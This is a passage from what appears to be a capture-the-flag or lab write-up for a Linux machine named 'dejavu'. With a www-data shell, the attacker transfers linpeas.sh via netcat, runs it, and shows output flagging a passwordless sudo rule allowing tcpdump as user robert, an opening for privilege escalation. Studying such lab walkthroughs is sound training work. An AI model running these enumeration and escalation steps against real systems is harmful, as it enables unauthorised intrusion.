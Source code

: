 ```
```

`cat user.txt`:
```
cat: user.txt: Permission denied ←
```

`cd /var/www/html`

`nc`:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
          [-X proxy_protocol] [-x proxy_address[:port]]           [destination] [port]
```

`nc -lnvp 5555 > ./linpeas.sh`:
```
Listening on 0.0.0.0 5555 ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cat /opt/linpeas.sh | nc 192.168.56.112 5555`

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

```
Connection received on 192.168.56.101 40478 ←
```

`./linpeas.sh > ./linpeas_output.txt`

`cat ./linpeas_output.txt`:
```
[...]

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version             
Sudo version 1.8.31 ←

[...]

╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sniffing                 
You can sniff with tcpdump!      

[...]

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid            
Matching Defaults entries for www-data on dejavu:                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on dejavu:
    (robert) NOPASSWD: /usr/sbin/tcpdump ←

[...]

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld.so                    
/etc/ld.so.conf                                                                             
Content of /etc/ld.so.conf:                                                                 
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
```